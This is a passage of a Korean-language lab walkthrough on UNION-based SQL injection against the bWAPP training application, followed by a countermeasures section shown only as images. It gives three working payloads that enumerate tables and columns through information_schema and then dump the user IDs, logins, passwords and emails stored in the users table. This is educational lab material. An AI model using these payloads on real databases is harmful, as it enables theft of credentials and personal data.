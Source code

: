 <br>

### table_name

![image-20220316183054757](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316183054757.png)

- 'bWAPP'라는 DB 정보를 알았으니 bWAPP의 테이블 정보를 알아보자

  `0' union select all 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema = 'bWAPP'#`

- table_name은 테이블 이름

- from의 information_schema는 mysql내의 모든 DB,테이블,컬럼 정보를 모아둔 메타 정보

  - 콤마로 연결해 다수의 테이블 tables를 지정해주고

- 조건으로 table_schema인 데이터베이스의 조건 bWAPP을 지정해주었다.

<br>

### column_name

![image-20220316183635231](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316183635231.png)

`0' union select all 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'users'#`

- coulmn_name은 컬럼이름
- 컬럼을 조회해야하기 때문에 information_schema.columns
- 조건으로 테이블이름은 users 테이블 이용
- 여기서 취약해보이는 id, login, password, email을 조회해보자

<br>

### 결과

![image-20220316183935205](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316183935205.png)

`0' union select all 1,id,login,password,email,6,7 from users#`

- login 값이 순번으로 나오는 갑다.
- 각 컬럼 번호에 조회할 컬럼들을 입력하고
- from -> 테이블은 users 테이블로 지정해주면 다음과 같이 개인취약정보 조회 가능

<br>

<br>

## SQL Injection(GET/Search) 대응방안

### Linux

![image-20220318002544545](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220318002544545.png)

![image-20220318002653266](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220318002653266.png)
